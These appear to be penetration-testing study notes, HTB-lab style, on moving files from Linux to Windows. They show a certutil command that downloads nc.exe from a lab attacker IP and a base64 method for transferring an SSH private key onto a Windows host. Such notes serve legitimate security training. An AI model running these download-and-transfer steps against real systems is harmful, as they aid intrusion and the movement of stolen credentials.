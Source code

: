 ```yaml
---
title: File Transfer - Windows
draft: false
tags:
---
```

## Linux to Windows

## Certutil
These days it is detected but we can still use it for ctfs:

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
### Base64

File transfer using base64 and md5sum

First check the file using md5sum:

```shell-session
jadu101@htb[/htb]$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

Convert the target file with base64:

```shell-session
jadu101@htb[/htb]$ cat id_rsa |base64 -w 0;echo

LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZ<snip>
```

Copy the content and use powershell to decode it:

```powershell-session
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS<snip>"))
```

Confirm the transferred file using md5:

```powershell-session
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278                                       C:\Users\Public\id_rsa
```

This method is convenient but it is not always available. cmd.exe has max string length of 8191 characters. Also there might be strong lagging if the string is too long. 
